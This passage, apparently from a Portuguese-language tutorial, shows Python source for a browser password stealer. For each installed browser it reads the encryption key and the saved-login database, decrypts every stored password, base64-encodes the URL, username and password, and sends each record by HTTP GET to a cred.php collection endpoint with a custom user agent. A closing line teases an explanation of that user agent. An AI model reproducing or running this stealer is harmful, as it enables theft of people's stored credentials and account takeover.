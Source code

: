 ```python
    return available  

def getting_path(browser):
    path = browsers[browser]
    global PATH_LSTATE
    global PATH
    PATH_LSTATE = os.path.normpath(f"{path}\\Local State")
    PATH = os.path.normpath(f"{path}")

if __name__ == '__main__':
    try:
        Browsers = installed_browsers()
        for Browser in Browsers:
            getting_path(Browser)
            secret_key = get_secret_key()
            #Search user profile or default folder (this is where the encrypted login password is stored)
            folders = [element for element in os.listdir(PATH) if re.search("^Profile*|^Default$",element)!=None]
            for folder in folders:
                #(2) Get ciphertext from sqlite database
                login_db = os.path.normpath(r"%s\%s\Login Data"%(PATH,folder))
                conn = get_db_connection(login_db)
                if(secret_key and conn):
                    cursor = conn.cursor()
                    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
                    for index,login in enumerate(cursor.fetchall()):
                        url = login[0]
                        username = login[1]
                        ciphertext = login[2]
                        if(url!="" and username!="" and ciphertext!=""):
                            #(3) Filter the initialisation vector & encrypted password from ciphertext
                            #(4) Use AES algorithm to decrypt the password
                            decrypted_password = decrypt_password(ciphertext, secret_key)
                            enc = base64.b64encode(bytes(f"{index},{url},{username},{decrypted_password}",'utf-8'))

                            r = requests.get(f'http://127.0.0.1/cred.php?p={enc}', headers={"User-Agent":"Aq1xswdE3"})
                    #Close database connection
                    cursor.close()
                    conn.close()
                    #Delete temp login db
                    os.remove("Loginvault.db")
    except:
        ...
```

Talvez você tenha reparado que a requisição feita para o servidor está usando um user agent um pouco estranho, mas isso vai fazer sentido mais pra frente
